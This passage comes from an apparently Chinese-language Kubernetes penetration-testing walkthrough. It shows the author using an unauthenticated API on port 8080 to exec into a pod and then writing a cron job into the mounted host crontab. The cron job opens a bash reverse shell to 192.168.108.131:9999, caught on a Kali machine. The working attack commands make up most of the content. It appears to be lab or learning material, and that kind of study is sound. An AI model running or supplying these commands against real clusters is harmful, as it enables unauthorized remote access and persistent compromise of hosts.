 [![](assets/1701678402-9976ad3b00dedfb40b31ef9e6704cb88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190914-e564a0c0-8f70-1.png)  
接下来利用未授权进入该容器中写入定时任务

```plain
利用8080的未授权API接口进入创建的容器
kubectl -s 192.168.108.100:8080 --namespace=default exec -it test bash
写入定时任务
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.108.131/9999 0>&1\n" >> /mnt/etc/crontab
```

这里本来的想法是反弹到公网的服务器上的，但发现实现不了需要端口映射到物理机，因此在Kali中接收shell，这里需要等一会，大概1分钟内能有回显  